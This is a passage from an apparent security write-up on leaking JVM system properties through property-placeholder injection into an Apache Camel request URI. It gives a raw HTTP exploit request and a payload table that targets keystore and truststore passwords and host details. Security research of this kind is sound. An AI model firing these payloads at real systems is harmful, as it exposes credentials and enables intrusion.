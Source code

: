 ```
GET /lookup-user.php?id=3816/../?var=\{\{java.version}}&x= HTTP/1.1
Host: victim.com
Connection: close

```

Let us break this payload appart. The parameter we supplied is *3816/../?var=\{\{java.version}}&x=*

First, we supply a user id, *3816*, whether valid, or not.
Then, */../*, which fails to resolve on the backend and thus causes a 404 Not Found response which Camel treats as an **error**, yielding our precious stack trace.
Then we supply an anchor sign, *?*, so we can pass parameters to the URI that will be built and sent to Camel.
Then, follows a parameter with an arbitrary name *var* and value of a property placeholder which will be resolved by the value of *java.version* in the System Properties of Camel's JVM Context.
Finally, we supply another parameter with the arbitrary name *x* but **no value**, so that when the endpoint URI is formed, anything that is appended to our payload is parsed as the value of *x*. Neat, huh?

That's it, we constructed an exploit.

The URI that will be constructed by Application A and sent to Camel is the following:

*http://applicationb.intranet.com/api/user/lookup/**3816/../?var=\{\{java.version}}&x=**/fullname?bridgeEndpoints=true*

Camel performs the request, fails to get a 200 OK response from Application B and returns a stack trace containing the following:

HttpOperationFailedInvokingException: HTTP operation failed invoking http://applicationb.intranet.com/api/user/lookup/3816/../?var=**1.8.0_181**&x=/fullname?bridgeEndpoints=true

You see it? There it lies, in bold typeface, our precious info leak!



### Yuh, seems dull, 0/10 IGN
If we investigate a bit, we can has even MOAR power.

| Payload                                                   | Value                      |
| --------------------------------------------------------- | -------------------------- |
| 3816/../?var=\{\{java.version}}&x=                        | Java Version               |
| 3816/../?var=\{\{java.runtime.version}}&x=                | Java Runtime Version       |
| 3816/../?var=\{\{javax.net.ssl.trustStorePassword}}&x=    | Trust Store Password       |
| 3816/../?var=\{\{javax.net.ssl.keyStorePassword}}&x=      | Key Store Password         |
| 3816/../?var=\{\{java.home}}&x=                           | Java Home Path             |
| 3816/../?var=\{\{jboss.server.deploy.dir}}&x=             | JBoss Deployment Directory |
| 3816/../?var=\{\{jboss.node.name}}&x=                     | JBoss Node (Host) Name     |
| 3816/../?var=\{\{user.home}}&x=                           | User Home Directory        |
| 3816/../?var=\{\{user.country}}&x=                        | User Country               |
| 3816/../?var=\{\{user.lang}}&x=                           | User Language              |
| 3816/../?var=\{\{user.country}}&x=                        | User Country               |
| 3816/../?var=\{\{os.arch}}&x=                             | OS Architecture            |
| 3816/../?var=\{\{os.version}}&x=                          | Kernel Version             |

